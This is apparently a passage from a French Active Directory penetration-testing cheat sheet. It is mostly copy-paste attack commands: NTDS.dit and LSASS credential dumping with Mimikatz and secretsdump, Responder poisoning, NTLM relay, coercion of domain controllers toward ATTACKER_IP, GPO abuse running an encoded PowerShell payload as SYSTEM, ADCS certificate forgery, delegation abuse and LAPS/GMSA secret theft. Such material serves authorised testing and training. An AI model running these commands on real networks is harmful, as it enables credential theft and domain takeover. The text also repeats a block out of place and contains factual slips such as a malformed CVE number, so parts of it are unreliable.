copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
secretsdump.py -system SYSTEM -ntds NTDS.dit LOCAL

# Mémoire (DC) : le dump le plus silencieux
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt

# Reversible encryption (comptes avec userAccountControl bit 128) :
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
# → secretsdump affichera le mot de passe en CLAIR pour ces comptes.
```

### 11.3 Exploitation des hashes extraits

```bash
# Crack des hashes NT
hashcat -m 1000 ntds-hashes.txt rockyou.txt -O -w 4
# Crack des hashes DCC2 (cache)
hashcat -m 2100 dcc2.txt wordlist.txt
# Identifier les comptes les plus précieux
nxc smb DC -u user -p pass --users | grep -i admin
```

---

## 12. LLMNR/NBT-NS/mDNS Poisoning (aucun creds, réseau local)

### 12.1 Principe

Quand une machine ne résout pas un nom en DNS, elle retombe sur **LLMNR** (5355), **NBT-NS** (137) ou **mDNS** (5353). Un attaquant du même segment **répond à ces requêtes** et se fait passer pour le serveur demandé → la victime s'authentifie en **NetNTLMv2** vers lui.



> 📘 Fiche détaillée : [[Techniques/LLMNR-NBT-NS Poisoning|🎙️ LLMNR/NBT-NS Poisoning]]

### 12.2 Exploitation

```bash
# Répondre aux requêtes LLMNR/NBNS des autres machines
# Elles envoient leur hash NetNTLMv2 → on le capture → crack
responder -I eth0 -wrf

# Crack le hash NetNTLMv2
hashcat -m 5600 netntlmv2.txt wordlist.txt
# Ou relay direct (sans cracker) → NTLM relay
ntlmrelayx.py -t smb://192.168.1.20 -smb2support
```

### 12.3 Table des formats capturés

| Type de capture | Hashcat | Note |
|---|---|---|
| NetNTLMv2 | 5600 | Le plus courant avec Responder |
| NetNTLMv1 | 5500 | Downgrade → shuck (voir 13) |
| Kerberos AS-REP | 18200 | Si pre-auth désactivée |

### 12.4 Conditions et limites

- L'attaquant doit être sur le **même broadcast domain** que la victime.
- LLMNR/NBT-NS doivent être activés (GPO par défaut sur beaucoup d'anciennes configs).
- SMB signing activé = impossible de relay → seulement crack.
- **Contre-mesures** : désactiver LLMNR/NBT-NS, forcer SMB signing, Protected Users.

---

## 13. NTLM Relay

### 13.1 Principe

Plutôt que de cracker le hash NetNTLMv2, on **relaie** l'authentification vers une machine qui n'exige pas de **SMB signing**. La session volée est acceptée → partages, exécution, voire LDAP (création de compte, shadow creds).



> 📘 Fiche détaillée : [[Techniques/NTLM Relay|🔗 NTLM Relay]]

### 13.2 Exploitation

```bash
# Détourner l'authentification d'une machine vers une autre
responder -I eth0 -dwPv
# On désactive SMB sur Responder pour ne pas "manger" le hash
ntlmrelayx.py -t smb://192.168.1.20 -smb2support
# Variantes : -t ldap:// (créer un compte), -t smb:// --no-http-server
```

### 13.3 Les cibles de relay

| Cible | Commande | Résultat |
|---|---|---|
| SMB | `-t smb://192.168.1.20` | Accès partages, upload |
| LDAP | `-t ldap://dc2 --shadow-credentials --shadow-target 'dc01$'` | Shadow creds → TGT du DC |
| ADCS | `-t http://ca/certsrv/certfnsh.asp` | ESC8 → cert → auth |
| MSSQL | `-t mssql://sql01` | Exécution SQL |

### 13.4 Le PrinterBug (coerce + relay)

Le **PrinterBug** force le DC à initier une connexion NTLM vers nous (via le spooler) → on relaie vers un **second DC en LDAP** → création de compte / shadow creds → **domaine**.

```bash
printerbug.py 'corp.local/user:pass'@DC01 ATTACKER_IP
# en parallèle :
ntlmrelayx.py -t ldap://DC02 --shadow-credentials --shadow-target 'DC02$'
```

### 13.5 Pré-requis critiques

- **SMB signing** désactivé sur la cible (vérifier : `nxc smb IP -u u -p p -M smb-risky`).
- Responder avec `SMB=Off` dans `/etc/responder/Responder.conf` (sinon il "mange" les requêtes).
- Avoir un client qui s'authentifie (coerce, phishing, event trigger).

---

## 14. ACL Abuse (BloodHound territory)

### 14.1 Principe

Chaque objet AD possède une **DACL** (discretionary access control list). Si un utilisateur a des droits étendus (`GenericAll`, `GenericWrite`, `WriteDACL`...) sur un objet sensible, il peut **escalader**. BloodHound met ces chemins en évidence (arêtes `GenericAll`, `GenericWrite`, `WriteDacl`, `AddMember`, `ForceChangePassword`).



> 📘 Fiche détaillée : [[Techniques/ACL Abuse AD|🧩 ACL Abuse]]

### 14.2 Les droits à connaître

```text
# "GenericAll" sur un utilisateur → on peut réinitialiser son mot de passe
# "WriteDACL" → ajouter des droits à soi-même
# "GenericWrite" → modifier targetSPN pour le Kerberoast
# "ForceChangePassword" → reset le mdp de la victime
```

| Droit | Effet | Exploitation type |
|---|---|---|
| **GenericAll** | Contrôle total | Reset mdp, ajout au groupe, shadow creds |
| **GenericWrite** | Écriture attributs | targetSPN → Kerberoast, script de logon |
| **WriteDACL** | Modifier la DACL | Se donner GenericAll |
| **WriteOwner** | Devenir owner → WriteDACL | Changer les droits de l'objet |
| **ForceChangePassword** | Reset du mot de passe | Se connecter avec le nouveau mdp |
| **AddMember** | Ajouter des membres | Rejoindre un groupe privilégié |
| **Write on `msDS-AllowedToActOnBehalfOfOtherIdentity`** | RBCD | S'impersonner la cible (voir 17) |

### 14.3 Exploitation

```bash
# Avec netexec
nxc ldap 192.168.1.10 -u user -p pass --password-reset victim:NewPass123!

# Avec bloodyAD
bloodyAD -d corp.local -u user -p pass --host DC01 set password victim 'NewPass123!'
bloodyAD -d corp.local -u user -p pass --host DC01 add groupMember 'Domain Admins' victim
# Ajouter un membre via netexec
nxc ldap 192.168.1.10 -u user -p pass --add-member 'Domain Admins' victim
```

### 14.4 Les ACL en SDDL

Une DACL se représente en **SDDL** : chaque entrée décrit un SID, un droit et une action (`A` = Allow). Exemple :

```text
O:BAG:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;DA)(A;;RPWPCR;;;User)
```

Lire les ACL avec PowerShell :

```powershell
(Get-Acl "AD:\CN=victim,OU=Utilisateurs,DC=corp,DC=local").Access
```

---

## 15. GPO Abuse

### 15.1 Principe

Les **GPO** appliquent des paramètres aux machines/OU. Si un utilisateur peut **écrire une GPO liée à des machines** (`GenericWrite`/`WriteDacl` sur le conteneur GPO), il peut injecter des **scripts de démarrage** → **RCE SYSTEM** sur toutes les machines concernées.



### 15.2 Détecter les GPO modifiables

```powershell
# Lister les GPO dont on est propriétaire / modifiable
Get-NetGPO | Where-Object {$_.IsUserChangeable}
# Via BloodHound (requête Cypher)
MATCH p=(u)-[r]->(g:GPO) WHERE u.name='USER' RETURN p
```

### 15.3 Exploitation avec SharpGPOAbuse

```powershell
# Ajouter une tâche de démarrage → payload en SYSTEM
SharpGPOAbuse.exe --AddComputerTask --TaskName "x" \
  --Author corp\user --Command "cmd" --Arguments "/c powershell -enc <payload>" --GPOName "Default Domain Policy"

# Ajouter un membre du groupe "Local Administrators" sur les machines liées
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount attacker --GPOName "Default Domain Policy"
```

### 15.4 GPO et tâches immédiates

Les **Immediate Tasks** s'exécutent dès le prochain refresh de GPO (90-120 min) sans redémarrage :

```powershell
# Appliquer la GPO immédiatement sur une machine compromise
gpupdate /force
```

### 15.5 Détection

- Événements **5136** (modification d'objet AD) sur les objets `CN=Policies`.
- Surveiller les scripts inhabituels dans `SYSVOL\Policies`.

---

## 16. ADCS & Certificats (ESC1-ESC13)

### 16.1 Principe

**AD CS** délivre des certificats. Un template mal configuré permet de demander un certificat pour **n'importe quel compte** (dont DA) → authentification par certificat (PKINIT) → TGT → DCSync. C'est l'une des familles d'attaques les plus puissantes de l'AD moderne.



> 📘 Fiche détaillée : [[Techniques/ADCS et Certificats (ESC)|🔐 ADCS & Certificats]]

### 16.2 Les ESC — synthèse

> [!warning] 🚨 **Les ESC 1 à 8 (certificats)**
> Abuser du serveur de certificats (AD CS) pour demander des certificats de **machine** ou
> contourner l'authentification :
>
> - **ESC1** : template avec "Client Authentication" + requérant controllable dans SAN → cert pour DA
> - **ESC2/ESC3** : templates avec l'extension "Any Purpose" / sous-templates
> - **ESC4** : permissions d'écriture sur un template
> - **ESC8** : NTLM relay vers l'API HTTP de l'ADCS
> - **ESC9/ESC10** : mauvaise validation "No Security Extension" / Key Usage → certs "n'importe quel usage"
> - **ESC11/ESC12** : abus du service de certification (relay NTLM même sans coerce)
> - **ESC13** : template mappé à un groupe de certificats → escalation de groupe
> - **Golden Certificate** : forger des certificats avec la clé privée de la CA (le "krbtgt" des certs)
>
> Outils : `certipy` (Linux) / Certify + Rubeus (Windows)

| ESC | Type | Principe |
|---|---|---|
| ESC1 | Template | SAN controllable + Client Auth → impersonnation |
| ESC2 | Template | Extension "Any Purpose" |
| ESC3 | Template | Sous-templates (2 demandes) |
| ESC4 | ACL | Droits d'écriture sur le template |
| ESC5 | ACL | ACL faibles sur la CA |
| ESC6 | CA | `EDITF_ATTRIBUTESUBJECTALTNAME2` activé |
| ESC7 | CA | Droits d'émission (ManageCA) |
| ESC8 | NTLM | Relay vers l'API HTTP `certfnsh.asp` |
| ESC9 | Auth | `No Security Extension` + comptes faibles |
| ESC10 | Auth | Mauvaise validation du certificat |
| ESC11 | NTLM | Relay vers RPC de la CA |
| ESC13 | Mapping | Template mappé à un groupe AD |

### 16.3 Workflow certipy (ESC1)

```bash
# Certipy - l'outil de référence pour ADCS
certipy find -u user@corp.local -p pass -dc-ip 192.168.1.10 -vulnerable
certipy req -u user@corp.local -p pass -ca CORP-CA -target web01 -template VulnTemplate \
            -upn administrator@corp.local
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
```

### 16.4 Golden Certificate

```bash
# Depuis un DC : extraire la clé privée de la CA
certipy ca -u 'domain\admin' -p 'pass' -dc-ip DC -ca 'CORP-CA' -backup
# Forger un certificat pour n'importe quel compte
certipy forge -ca-pfx CA.pfx -upn administrator@corp.local -subject 'CN=admin'
# S'authentifier
certipy auth -pfx forged.pfx -dc-ip DC
```

---

## 17. Délégation Kerberos (la famille à maîtriser)

### 17.1 Principe

La délégation permet à un service d'agir **au nom** d'un utilisateur. Trois variantes, toutes abusables si mal configurées :

```text
La délégation permet à un service d'agir "au nom" d'un utilisateur.
3 variantes, toutes abusables si mal configurées :
  🔓 Unconstrained : le service garde le TGT de l'utilisateur
  🔗 Constrained    : le service peut impersonner vers des SPN précis
  🧬 RBCD          : le service cible définit QUI peut l'impersonner
```

> 📘 Fiches détaillées : [[Techniques/Kerberos Delegation|🧬 Kerberos Delegation (hub)]] · [[Techniques/Kerberos - Unconstrained Delegation|🔓 Unconstrained]] · [[Techniques/Kerberos - Constrained Delegation|🔗 Constrained]] · [[Techniques/Kerberos - RBCD (Resource-Based Constrained Delegation)|🧬 RBCD]] · [[Techniques/Kerberos - Bronze Bit|🥉 Bronze Bit]]

> [!danger] 🚨 **Le trio délégué = gold mine de BloodHound**
> BloodHound affiche les arêtes `AllowedToDelegate`, `AllowedToActOnBehalfOfOtherIdentity`
> et l'attribut `unconstraineddelegation=true`. Vérifie ces 3 là en priorité.

### 17.2 🔓 Unconstrained delegation — trouver + exploiter

```bash
# Trouver les machines concernées
nxc ldap 10.10.10.10 -u user -p pass --trusted-for-delegation
# BloodHound : MATCH (c:Computer {unconstraineddelegation:true}) RETURN c

# Sur la machine compromise (Windows) : monitorer les tickets qui arrivent
Rubeus.exe monitor /interval:1

# Depuis notre machine : forcer le DC à s'authentifier vers la machine compromise
# (le TGT du DC$ arrive en mémoire de la machine compromise !)
SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB   # MS-RPRN (spooler)
python3 printerbug.py 'domain/user:pass'@DC01 HELPDESK # variante
python3 petitpotam.py -d domain -u user -p pass ATTACKER DC01  # MS-EFSR

# Charger le TGT du DC et demander des tickets LDAP/CIFS
Rubeus.exe asktgs /ticket:<base64> /service:ldap/dc.lab.local,cifs/dc.lab.local /ptt
# → DCSync possible car le compte DC$ a les droits de réplication :
mimikatz # lsadump::dcsync /user:krbtgt
```

### 17.3 🔗 Constrained delegation — impersonner vers des SPN précis

```bash
# Trouver : BloodHound MATCH p=(a)-[:AllowedToDelegate]->(c:Computer) RETURN p
Get-NetComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto

# Avec le hash/mdp du compte autorisé → impersonner Administrator
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
# ou Rubeus (S4U2self + S4U2proxy)
Rubeus.exe s4u /nowrap /msdsspn:"time/target.local" /altservice:cifs \
  /impersonateuser:"administrator" /domain:domain /user:user /password:password
```

### 17.4 🧬 RBCD — la cible définit qui peut l'impersonner

```bash
# 1. Créer un compte machine (MachineAccountQuota = 10 par défaut !)
bloodyAD -u user -p pass --host DC add computer swktest 'Weakest123*'
# ou impacket : addcomputer.py 'dom/user:pass' -computer-name swktest -computer-pass 'Weakest123*'

# 2. Donner à swktest$ le droit de s'impersonner la machine cible
bloodyAD --host DC -u user -p pass -d domain add rbcd 'DC01$' 'swktest$'

# 3. Demander un ticket en tant que swktest$ en impersonnant admin
Rubeus.exe s4u /user:swktest$ /rc4:<hash> /impersonateuser:Administrator \
  /msdsspn:cifs/dc01.domain /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
# → accès total à DC01 en tant qu'admin.
```

> [!tip] 💡 **Coerce → Délegation** : si tu as une machine à délégation **non restreinte**,
> force le DC à s'authentifier dessus (SpoolSample/PetitPotam) → tu récupères son TGT → DCSync.
> C'est l'un des chemins les plus courts vers le domaine.

---

## 18. Coerce Attacks — forcer une machine à s'authentifier vers nous

### 18.1 Principe

**Coerce** = forcer une machine (souvent le DC, en SYSTEM) à initier une authentification vers **NOTRE serveur**. Combinable avec : NTLM Relay, délégation non restreinte, capture NetNTLMv1/v2...

> 📘 Fiche détaillée : [[Techniques/Coerce - PrinterBug et PetitPotam|🧲 Coerce (PrinterBug/PetitPotam)]]

### 18.2 Les techniques

| Outil | Protocole | Cible |
|---|---|---|
| **SpoolSample / printerbug** | MS-RPRN (spooler) | DC Windows (spooler en écoute) |
| **PetitPotam** | MS-EFSRPC | DC (fonctionne post-patch du spooler) |
| **DFSCoerce** | MS-DFSNM | Serveurs DFS |
| **WSPCoerce** | MS-WSP | Workstations |

### 18.3 Exploitation

```bash
# Vérifier que le spooler tourne sur la cible
nxc smb 10.10.10.10 -u user -p pass -M spooler
# Coercer une auth vers notre attacker
python3 petitpotam.py -d domain -u user -p pass ATTACKER_IP DC_IP
SpoolSample.exe DC01 ATTACKER01
python3 dfscoerce.py -u user -d domain DC_IP ATTACKER_IP
# → combiner avec ntlmrelayx : ntlmrelayx -t ldap://DC2 --shadow-credentials --shadow-target 'dc01$'
```

### 18.4 La chaîne coerce → relay → shadow creds



---

## 19. LAPS, GMSA & Shadow Credentials

### 19.1 🗝️ LAPS

**LAPS** (Local Administrator Password Solution) stocke le mot de passe admin local **en clair** dans AD (attribut `ms-mcs-AdmPwd`). Le risque : qui a le droit de **lire** l'attribut ?

> 📘 Fiche détaillée : [[Techniques/LAPS et GMSA|🗝️ LAPS & GMSA]]

```bash
# Qui a le droit de lire ? (Find-AdmPwdExtendedRights). Si un groupe "deployment" y a accès...
nxc ldap 10.10.10.10 -u user -p pass -M laps           # lit le mdp de toutes les machines
python3 pyLAPS.py --action get -u user -d domain -p pass --dc-ip 10.10.10.10
ldapsearch -x -h 10.10.10.10 -D "user@domain" -w 'pass' \
  -b "dc=domain,dc=local" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
# Windows (PowerShell) :
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*))").findAll() | % {$_.properties}
```

### 19.2 🧮 GMSA

Les **GMSA** ont un mot de passe **dérivé du KDS root key**, jamais changé. Si on peut lire `msDS-ManagedPassword`, on calcule le hash.

```bash
nxc ldap 10.10.10.10 -u user -p pass --gmsa     # dump les hashes des GMSA lisibles
gMSADumper.py -u user -p pass -d domain         # + dump local du LSA
# Si on a la KDS root key (DC compromis) → forger le mdp de TOUTES les GMSA (Golden GMSA)
GoldenGMSA.exe kdsinfo ; GoldenGMSA.exe compute --sid <gmsa-sid>
```

### 19.3 🌑 Shadow Credentials

Ajouter une **clé publique** dans `msDS-KeyCredentialLink` d'un compte cible → s'authentifier en **PKINIT** → TGT. Nécessite un droit d'écriture sur l'attribut.

> 📘 Fiche détaillée : [[Techniques/Shadow Credentials|🌑 Shadow Credentials]]

```bash
# Nécessite : écrire sur msDS-KeyCredentialLink (GenericWrite/GenericAll) + ADCS/PKINIT
certipy shadow -u 'attacker@domain' -p 'Passw0rd!' -dc-ip 10.0.0.100 -account 'victim' add
certipy shadow auto -account victim -dc-ip DC -target dc.domain.lab
# Puis se faire passer pour la victime :
certipy auth -pfx victim.pfx -dc-ip DC -username victim -domain domain.local
# Variante relay : ntlmrelayx -t ldap://dc2 --shadow-credentials --shadow-target 'dc01$'
```



---

## 20. Comptes & Secrets cachés

### 20.1 GPP / SYSVOL : les mots de passe historiques

Les **GPO Preferences** (GPP) stockaient des mots de passe chiffrés avec une **AES key publique** (documentée) → **déchiffrables par n'importe qui**. Les fichiers `Groups.xml`, `ScheduledTasks.xml`, `Services.xml` en sont remplis.

```bash
# Chercher les cpassword dans SYSVOL
nxc smb 192.168.1.0/24 -u user -p pass -M gpp_password
# Décrypter un cpassword (AES key connue)
gpp-decrypt <cpassword>
# Windows (PowerShell)
$c = Get-Content Groups.xml | Select-String -Pattern 'cpassword="([^"]+)"' -AllMatches
```

### 20.2 Mots de passe dans les attributs LDAP

| Attribut | Risque |
|---|---|
| `ms-Mcs-AdmPwd` | LAPS (mdp local en clair) |
| `msDS-ManagedPassword` | GMSA |
| `unixUserPassword` | Mdp en clair (schémas AD-LDS) |
| `description` | Les admins y notent leurs mdp ! |
| `info` | Idem |

```bash
# Chercher les mots de passe dans les descriptions
ldapsearch -x -H ldap://DC -D 'corp\user' -w 'pass' \
  -b 'DC=corp,DC=local' "(description=*pass*)" sAMAccountName description
```

### 20.3 SID History

`SIDHistory` conserve les anciens SID après migration. Si un compte du domaine parent a le SID d'un groupe DA du domaine enfant (ou l'inverse), un trust mal filtré peut permettre une **escalade inter-domaine**.

```powershell
# Trouver les comptes avec SIDHistory
Get-ADUser -Filter {SIDHistory -ne $null} -Properties SIDHistory
```

### 20.4 Comptes machine, trust et service

| Type de compte | Mot de passe | Intérêt |
|---|---|---|
| Machine (`WEB01$`) | Aléatoire, 120+ chars | Rejouable (PtH), jamais crackable |
| Trust inter-domaines (`TRUST$`) | Généré à la création | Forger des tickets inter-realm si volé |
| GMSA | Dérivé du KDS root | Hash calculable si droits de lecture |
| Service classique | Faible souvent | Kerberoast |

### 20.5 Comptes exposés

```powershell
# Password Never Expires (souvent privilégiés, rarement surveillés)
Get-ADUser -Filter 'PasswordNeverExpires -eq $true' -Properties PasswordNeverExpires
# Comptes sans pre-auth (AS-REP)
Get-ADUser -Filter 'userAccountControl -band 4194304' -Properties userAccountControl
# Comptes désactivés mais non supprimés (souvent avec mdp connus)
Get-ADUser -Filter 'Enabled -eq $false'
```

---

## 21. Trusts & Forests

### 21.1 Principe

Un **trust** est une relation de confiance entre domaines (intra-forêt) ou forêts (inter-forêt). Il permet l'authentification croisée. Mal configuré (SID filtering absent, délégation croisée), il devient un **pont de compromission** : compromettre le domaine A = contrôler le domaine B.



### 21.2 Types de trust

| Type | Direction | Transitivité | Usage |
|---|---|---|---|
| Parent-Enfant | Bidirectionnel | Transitive | Dans la même forêt |
| Tree-Root | Bidirectionnel | Transitive | Arbre de domaines |
| Forest | Bidirectionnel | Selective | Deux forêts |
| External | Unidirectionnel | — | Domaine externe |
| Shortcut | — | — | Optimisation |

### 21.3 Énumérer les trusts

```bash
# impacket
findTrust.py -dc-ip DC 'corp.local/user:pass'
# netexec
nxc ldap DC -u user -p pass --trusted-for-delegation
# ldapdomaindump puis grep
ldapdomaindump -u 'corp\user' -p 'pass' DC | grep -i trust
# Windows (PowerShell)
Get-ADTrust -Filter * | ft Name, TrustDirection, TrustType, TrustTransitive
```

### 21.4 Exploitation cross-trust

| Technique | Principe |
|---|---|
| **Kerberoast cross-trust** | Depuis un domaine qui trust l'autre, demander des TGS pour des SPN du domaine distant |
| **SID filtering absent** | Un SIDHistory d'un domaine parent est accepté dans l'enfant → escalade |
| **Forge inter-realm TGT** | Avec le hash du compte trust `TRUST$`, forger des tickets pour le domaine distant |
| **Delegation croisée** | Un service avec délégation vers un SPN de l'autre domaine |

```bash
# Kerberoast cross-trust
GetUserSPNs.py -dc-ip DC_CHILD 'child.corp.local/user:pass' -request -target-domain corp.local
# Forge d'un TGT inter-realm
getST.py -spn krbtgt/corp.local 'child.corp.local/user:pass' -impersonate Administrator
```

### 21.5 Défenses

- Activer le **SID filtering** sur les trusts externes (mais compatibilité ?).
- Surveiller les logons inter-domaines (Event 4624, type 3, domaine distant).
- Restreindre les SPN cross-trust et la délégation inter-forêt.

---

## 22. AD — Vulns historiques

### 22.1 Le tableau de chasse

| Vuln | CVE | Impact | Exploit |
|---|---|---|---|
| **EternalBlue** | MS17-010 | RCE System | `msf` module |
| **ZeroLogon** | CVE-2020-1472 | Takeover du DC (30s) | `zerologon` / nbtscan |
| **PrintNightmare** | CVE-2021-34527 | RCE sur printer spooler | `printnightmare` |
| **NoPac/Sam-the-admin** | CVE-2021-42278/87 | DCsync | `noPac.py` |
| **DCSync** | — | Dump de tous les hashes | `secretsdump` |
| **Bronze Bit** | CVE-2020-17049 | Forge de tickets "forwardable" interdits | `getST.py -force-forwardable` |
| **MS14-068** | CVE-2014-068 | Forge PAC → DA | `goldenPac.py` |

### 22.2 Détail des vulns majeures

| Vuln | CVE | Détail | Correctif |
|---|---|---|---|
| **ZeroLogon** | CVE-2020-1472 | Authentification Netlogon avec un secret AES vide → changement du mdp du DC | Patch août 2020 + exigence secure RPC |
| **PrintNightmare** | CVE-2021-34527 | Abus du spooler → RCE SYSTEM ou suppression de l'auth | Patch + désactivation spooler |
| **NoPac** | CVE-2021-42278/42287 | Renommer un compte machine en DC → TGT de DC → DCSync | Patch nov 2021 |
| **EternalBlue** | MS17-010 | Overflow SMBv1 → RCE SYSTEM | Patch mars 2017 |
| **MS14-068** | CVE-2014-068 | PAC forgée avec U2U → DA sans creds | Patch |
| **Bronze Bit** | CVE-2020-17049 | Forge d'un TGS `forwardable` → impersonnation malgré le flag interdit | Patch |

### 22.3 Ordre de priorité "légendaire"

1. **ZeroLogon** si DC non patché → domaine en 30 secondes.
2. **NoPac** si non patché → DCsync.
3. **PrintNightmare** si spooler actif + accès SMB.

> [!warning] ⚠️ **Ces exploits sont souvent bloqués dans les labs récents** (patchés). Les vulns de **configuration** (Kerberoast, ACL, ADCS, délégations, trusts) restent la voie royale moderne.

---

## 23. Mimikatz — l'arsenal Windows complet

Mimikatz est le **swiss-army knife** des creds Windows. Nécessite souvent `privilege::debug` (droit SeDebugPrivilege : admin local ou SYSTEM).

> 📘 Fiche détaillée : [[Outils/Outil - Mimikatz|Mimikatz]]

### 23.1 Référence des commandes

| Module | Commande | Fonction |
|---|---|---|
| **privilege** | `privilege::debug` | Obtient SeDebugPrivilege |
| **sekurlsa** | `sekurlsa::logonpasswords` | Dump des creds en clair (LSASS) |
| **sekurlsa** | `sekurlsa::pth` | Pass-the-Hash |
| **sekurlsa** | `sekurlsa::krbtgt` | Hash krbtgt en mémoire |
| **lsadump** | `lsadump::sam` | Dump SAM (comptes locaux) |
| **lsadump** | `lsadump::lsa /patch` | Dump LSA (secrets) |
| **lsadump** | `lsadump::dcsync /all` | DCSync |
| **lsadump** | `lsadump::secrets` | Secrets DPAPI/system |
| **kerberos** | `kerberos::ptt` | Pass-the-Ticket |
| **kerberos** | `kerberos::golden` | Forge Golden/Silver |
| **kerberos** | `kerberos::list` | Liste des tickets |
| **misc** | `misc::skeleton` | Skeleton Key |
| **misc** | `misc::cmd` | Shell avec privilèges |
| **dpapi** | `dpapi::chrome` | Secrets Chrome |

```powershell
mimikatz.exe
privilege::debug

# Dump des logons en clair (en mémoire !)
sekurlsa::logonpasswords

# Hashes de tous les utilisateurs (nécessite SYSTEM)
lsadump::sam
lsadump::lsa /patch

# DCsync (droits DA requis)
lsadump::dcsync /domain:corp.local /all /csv

# Dump du fichier NTDS.dit
lsadump::sam /system:system.hive /sam:sam.hive
# Copier NTDS.dit :
#   ntdsutil "activate instance ntds" "ifm" "create full C:\temp\ntds" quit quit
secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL

# Manipuler les tickets
kerberos::ptt ticket.kirbi
kerberos::golden ...
sekurlsa::pth /user:admin /domain:corp.local /ntlm:<hash>
```

### 23.2 NTDS.dit — méthodes de dump (par ordre de discrétion)

```text
But : récupérer (NTDS.dit + SYSTEM hive) → secretsdump LOCAL → tous les hashes du domaine.
```

| Méthode | Outil | Détail |
|---|---|---|
| **DCSync (le plus simple)** | `secretsdump -just-dc` | Requête de réplication → le plus bruyant |
| **ntdsutil IFM** | `ntdsutil "ac i ntds" "ifm" "create full C:\temp"` | Crée une copie complète |
| **Volume Shadow Copy** | `vssadmin create shadow /for=C:` | Copie NTDS.dit verrouillé |
| **Forensics (léger)** | `dumpit` + `volatility` | Dump mémoire puis extraction SYSTEM |
| **NetExec** | `nxc smb DC -u u -p p --ntds vss` | Automatise la VSS |

```bash
# VSS (souvent le meilleur rapport simplicité / discrétion)
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
secretsdump.py -system SYSTEM -ntds NTDS.dit LOCAL

# Mémoire (DC) : le dump le plus silencieux
mimikatz> privilege::debug
